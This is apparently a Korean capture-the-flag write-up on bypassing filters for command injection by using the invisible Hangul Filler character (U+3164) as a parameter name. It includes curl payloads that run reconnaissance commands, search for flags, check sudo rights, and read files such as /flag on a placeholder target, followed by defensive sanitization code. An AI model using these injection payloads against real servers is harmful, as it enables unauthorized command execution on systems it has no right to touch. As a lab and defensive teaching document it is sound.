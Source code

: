 # Command Injection via Invisible Unicode Parameter

## 취약점 개요

이 문제는 **Command Injection** 취약점을 **보이지 않는 유니코드 문자**를 이용해 우회하는 기법입니다.

## 기법 분석

### 1. 보이지 않는 유니코드 문자 활용
- **문자**: `ㅤ` (U+3164, Hangul Filler)
- **특징**: 시각적으로는 공백처럼 보이지만 실제로는 유효한 변수명
- **우회 원리**: 서버 측 필터링에서 놓치기 쉬운 문자

### 2. 서버 동작 방식
```javascript
// 서버 내부 로직 (추정)
const commands = [];
commands[choice] = request.body['ㅤ']; // 보이지 않는 변수명
executeCommand(commands[choice]);
```

### 3. 페이로드 구조
```
choice=6&ㅤ=<원하는_명령어>
```
- `choice=6`: 배열 인덱스 지정
- `ㅤ=<cmd>`: 보이지 않는 변수에 명령어 주입

## 풀이 과정

### Step 1: 기본 정보 수집
```bash
# 현재 디렉토리 파일 목록
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=ls -al"

# 현재 작업 디렉토리
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=pwd"

# 시스템 정보
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=uname -a"
```

### Step 2: 플래그 탐색
```bash
# 플래그 파일 검색
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=find / -name '*flag*' 2>/dev/null"

# 일반적인 플래그 위치 확인
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=cat flag.txt"
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=cat /flag"
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=cat flag"
```

### Step 3: 권한 상승 (필요시)
```bash
# 현재 사용자 확인
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=whoami"

# sudo 권한 확인
curl -X POST http://target:port/server_status -d "choice=6&ㅤ=sudo -l"
```

## 방어 기법

### 1. 입력 검증 강화
```javascript
// 유니코드 정규화 및 필터링
function sanitizeInput(input) {
    return input.normalize('NFKC')
                .replace(/[\u3164\u2000-\u200F\u202A-\u202E]/g, '')
                .replace(/[;&|`$(){}[\]]/g, '');
}
```

### 2. 화이트리스트 방식
```javascript
const allowedCommands = ['status', 'info', 'help'];
if (!allowedCommands.includes(userInput)) {
    throw new Error('Invalid command');
}
```

### 3. 파라미터명 검증
```javascript
const allowedParams = ['choice', 'action'];
Object.keys(requestBody).forEach(key => {
    if (!allowedParams.includes(key)) {
        throw new Error('Invalid parameter');
    }
});
```

## 학습 포인트

1. **보이지 않는 문자의 위험성**: 유니코드 문자 중에는 시각적으로 구분되지 않는 문자들이 많음
2. **필터링 우회 기법**: 기존 보안 필터를 우회하는 창의적 방법
3. **입력 검증의 중요성**: 모든 사용자 입력에 대한 철저한 검증 필요

## 추가 실습

비슷한 보이지 않는 문자들:
- `\u200B` (Zero Width Space)
- `\u200C` (Zero Width Non-Joiner) 
- `\u200D` (Zero Width Joiner)
- `\u2060` (Word Joiner)

이런 문자들도 변수명으로 사용해서 필터링 우회를 시도해볼 수 있어!